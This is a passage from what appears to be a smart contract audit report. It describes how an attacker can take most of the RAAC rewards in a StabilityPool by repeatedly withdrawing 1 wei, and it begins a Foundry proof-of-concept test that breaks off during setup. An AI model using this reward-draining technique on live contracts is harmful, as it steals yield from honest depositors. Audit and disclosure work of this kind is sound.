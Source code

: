 * Alice has 10000 RToken and deposits 10000 RToken to StabilityPool
* Eve has 1000 RToken and deposits 1000 RToken to StabilityPool
* 7 days pass, and StabilityPool accrues some rewards
* Eve withdraws `1 wei` from StabilityPool for 100 times
* Alice withdraws 5000 RToken from StabiltyPool
* Eve has most of the RAAC rewards, Alice only receives dust amount of rewards

**How to run POC**

* Follow [hardhat foundry integration tutorial](https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry#adding-foundry-to-a-hardhat-project)

- Create a file `test/poc.t.sol` with the following content and run `forge test poc.t.sol -vvv`

```solidity
pragma solidity ^0.8.19;

import "../lib/forge-std/src/Test.sol";
import {RToken} from "../contracts/core/tokens/RToken.sol";
import {DebtToken} from "../contracts/core/tokens/DebtToken.sol";
import {DEToken} from "../contracts/core/tokens/DEToken.sol";
import {RAACToken} from "../contracts/core/tokens/RAACToken.sol";
import {veRAACToken} from "../contracts/core/tokens/veRAACToken.sol";
import {RAACNFT} from "../contracts/core/tokens/RAACNFT.sol";
import {LendingPool} from "../contracts/core/pools/LendingPool/LendingPool.sol";
import {StabilityPool} from "../contracts/core/pools/StabilityPool/StabilityPool.sol";
import {RAACMinter} from "../contracts/core/minters/RAACMinter/RAACMinter.sol";
import {RAACHousePrices} from "../contracts/core/primitives/RAACHousePrices.sol";

import {crvUSDToken} from "../contracts/mocks/core/tokens/crvUSDToken.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract RAACTest is Test {
    RToken rToken;
    DebtToken debtToken;
    RAACToken raacToken;
    DEToken deToken;
    veRAACToken veToken;
    RAACNFT raacNft;
    RAACMinter raacMinter;
    crvUSDToken crvUsd;

    LendingPool lendingPool;
    StabilityPool stabilityPool;
    RAACHousePrices housePrice;

    address alice = makeAddr("alice");
    address eve = makeAddr("eve");
    uint256 userAssetAmount = 10_000e18;
    uint256 tokenId = 1;

    uint256 initialBurnTaxRate = 50;
    uint256 initialSwapTaxRate = 100;
    uint256 initialPrimeRate = 0.1e27;

    function setUp() external {
        vm.warp(1e9); // warp time stamp to avoid underflow in RAACMinter constructor
        crvUsd = new crvUSDToken(address(this));
        housePrice = new RAACHousePrices(address(this));
        debtToken = new DebtToken("DebtToken", "DTK", address(this));
        rToken = new RToken("RToken", "RTK", address(this), address(crvUsd));
        raacNft = new RAACNFT(address(crvUsd), address(housePrice), address(this));
        lendingPool = new LendingPool(
            address(crvUsd), address(rToken), address(debtToken), address(raacNft), address(housePrice), 0.1e27
        );
```